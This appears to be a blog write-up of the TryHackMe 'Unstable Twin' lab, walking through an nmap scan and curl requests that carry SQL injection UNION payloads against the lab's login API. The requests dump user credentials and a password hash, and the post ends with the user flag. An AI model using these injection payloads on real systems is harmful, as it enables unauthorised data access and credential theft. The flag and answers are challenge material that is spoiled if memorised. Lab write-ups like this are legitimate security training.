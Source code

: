 ```yaml
---
layout: post
title:  "Tryhackme - Unstable Twin"
date:   2021-05-20 17:06:25
categories: Pentesting
---
```


Prompt:https://tryhackme.com/room/unstabletwin

# Solution

Starting with the usual Nmap scan, we discover that only 2 ports are open.

```py
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 ba:a2:40:8e:de:c3:7b:c7:f7:b3:7e:0c:1e:ec:9f:b8 (RSA)
|   256 38:28:4c:e1:4a:75:3d:0d:e7:e4:85:64:38:2a:8e:c7 (ECDSA)
|_  256 1a:33:a0:ed:83:ba:09:a5:62:a7:df:ab:2f:ee:d0:99 (ED25519)
80/tcp open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1

```
On running the gobuster scan we get 2 directories /api (with status 404) and /info (with status 200) which tells us that the login API needs to be called with username and password on visiting /info .

To get the build version we send a request to /info 

```py
curl -i -s http://10.10.196.16/info
```
However it returned 1.3.6-final (which did not turn out to be the correct answer),so I thought it is some machine error and so I sent the request again and (much to my bewilderment) got a different build version.

```
1.3.4-dev
```
After this I sent a request to the login API with an arbitrary username and password as directed in /info and got the result that the credentials are incorrect

```py
curl -XPOST 'http://10.10.196.16/api/login' -d 'username=admin&password=admin'
"The username or password passed are not correct."
```
The box has an SQLi tag so i decided to try exploiting it in that direction and tried to list our the table names in the sqlite_master database. 
Basically sqlite_master is the master listing of all database objects in the database and the SQL used to create each object. 
The sqlite_master contains the following columns:

```
The sqlite_master table contains the following columns:

Column Name	Description
type	          The type of database object such as table, index, trigger or view.
name	        The name of the database object.
tbl_name	  The table name that the database object is associated with.
rootpage	  Root page.
sql	          SQL used to create the database object.

```
So I basically have to display the information stored in tbl_name column.
Here's my request:

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1'UNION SELECT 1,group_concat(tbl_name) from sqlite_master where type='table' -- -&password=admin"



[
  [
    1, 
    "users,sqlite_sequence,notes"
  ]
]

```
Now sqlite_sequence is one of the default tables present in SQL ,so it is not probably not important right now.
So I list out the data in the **users** table :

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1' UNION SELECT username,password from users -- -&password=admin"


[
  [
    "julias", 
    "Red"
  ], 
  [
    "linda", 
    "Green"
  ], 
  [
    "marnie", 
    "Yellow "
  ], 
  [
    "mary_ann", 
    "continue..."
  ], 
  [
    "vincent", 
    "Orange"
  ]
]

```

But Mary Anns' password is not listed here so i proceed to similarly list the information in the **notes** table:

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1'UNION SELECT 1,notes from notes -- - -- -&password=admin"



[
  [
    1, 
    "I have left my notes on the server.  They will me help get the family back together. "
  ], 
  [
    1, 
    "My Password is eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422
    cf984324f645b84427343f4\n"
  ]
]

```
Seems like a hash,right? So I proceed to crack the hash online using [Crackstation](https://crackstation.net/) and get the SSH password.

```
Experiment
```
After this I log in via SSH and retieve the User Flag.

***User Flag : THM{Mary_Ann_notes}***
